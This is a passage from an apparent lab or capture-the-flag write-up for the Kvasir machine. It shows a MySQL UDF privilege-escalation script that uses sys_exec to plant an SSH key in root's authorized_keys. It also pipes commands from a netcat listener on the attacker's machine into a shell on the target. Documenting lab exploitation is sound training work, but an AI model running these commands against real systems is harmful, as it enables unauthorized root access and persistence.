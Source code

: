 ```bash
root@kali:~# cat load_udf.sh
touch log
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'use mysql; select 0x7f454

    [... snip ... but the this the output of xxd -p lib_mysqludf_sys.so ]

0000000000000 into dumpfile "/usr/lib/mysql/plugin/raptor_udf.so";' 2>> log
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'create function sys_exec returns integer soname "raptor_udf.so";' 2>> log
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'use mysql; select * from mysql.func;' 2>> log

# this adds me a SSH key to roots authorized keys using the command execution udf we have prepared
mysql -uroot -pcoolwater -h 192.168.2.200 -e 'select sys_exec("echo \"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPzHgBKct5VjcxsoGfzL/g2XfOk6k6vhHxS4V1C4x0483V29E5OhEDSW/3pfJVwv9m/BW1aXJe5sLO3G3kn0VhgEen+YHShXu09cv3ROu98krlwYcmzyMyfZdwU0D2DbIJjFKWaqEafIcLx01vmFozcxk3C1bhPdo6mBuu2XGWJx6OpqXYnnRGebXdBqKT9b5JmEVn/W8Vu9F68nqmIYyk3hBlydwbOkevh/HfsNm50pd7ZZPK/mpAdZxYYxfBcvUQcWmgtw49ihTAJGh5KZJM/pL4xCw/meavFXy01SX7TZNAmrxcn6FDcXQJ6DC+TUMWXigxcCwntKxSHChyTiDB\" > /root/.ssh/authorized_keys")' 2>> log
```

With this file ready, I opened a netcat port to pipe it to, and read it on `web`:

```bash
# on the attacking machine, I opened netcat with my mysql commands
root@kali:~# nc -lvp 4444 < load_udf.sh
listening on [any] 4444 ...

# then on the original netcat shell I have, read it
timeout 3 nc 192.168.56.101 4444 | sh
name    ret dl  type
sys_exec    2   raptor_udf.so   function
sys_exec("echo \"ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDPzHgBKct5VjcxsoGfzL/g2XfOk6k6vhHxS4V1C4x0483V29E5OhEDSW/3pfJVwv9m/BW1aXJe5sLO3G3kn0VhgEen+YHShXu09cv3ROu98krlwYcmzyMyfZdwU0D2DbIJjFKWaqEafIcLx01vmFozcxk3C1bhPdo6mBuu2XGWJx6OpqXYnnRGebXdBqKT9b5JmEVn/W
0
```

The public ssh key is sourced from a new key pair I generated for Kvasir. So, with that run we get a exit code of `0`, indicating that it was successful. I specify the `timeout` command so that the nc session opened from within another nc session will exit and we don’t lose the shell. Pressing ^C will kill the whole session and not just the netcat I just run :)

## ssh to db host
With all that done, I have my public key for the `root` user added, and I should be able to ssh to it. There is one interesting hurdle though, how do I *get* to 192.168.2.200's port 22? :)

For that, I decided to look at `netcat` port forwarding! But first, lets read some man pages:

```bash
#from nc(1)
OPTIONS
       -c string    specify shell commands to exec after connect (use with caution).
```
